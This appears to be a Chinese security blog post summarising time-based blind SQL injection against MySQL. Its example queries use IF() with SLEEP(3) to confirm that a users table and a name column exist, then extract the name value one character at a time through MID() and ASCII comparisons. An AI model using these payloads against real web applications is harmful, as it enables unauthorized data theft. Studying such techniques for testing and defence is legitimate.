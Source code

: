 ```yaml
---
layout: post
title: "延时注入小结"
subtitle: "延时注入小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select sleep(3);
+----------+
| sleep(3) |
+----------+
|        0 |
+----------+

mysql> select name from users limit 1;
+----------+
| name     |
+----------+
| XiaoMing |
+----------+

```



**判断是否存在users表名**

```mysql
select * from users where id=1 and 0=if((select count(*) from users),sleep(3),1);

select * from users where id=1 and if((select count(*) from users),sleep(3),1);
```





**判断是否存在name字段**

```mysql
select * from users where id=1 and 0=if((select count(name) from users),sleep(3),1);

select * from users where id=1 and if((select count(name) from users),sleep(3),1);
```



**延时取出name字段数据**

```mysql
select * from users where id=1 and if(('g' = mid((select name from users limit 1),8,1)),sleep(3),1);
```



**利用ascii码取出 name字段数据 **

```mysql
select * from users where id=1 and if((ascii(mid((select name from users limit 1),1,1))=88),sleep(3),1);



select * from users where id=1 and if((ascii(mid((select name from users limit 1),2,1))=105),sleep(3),1);


------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***
```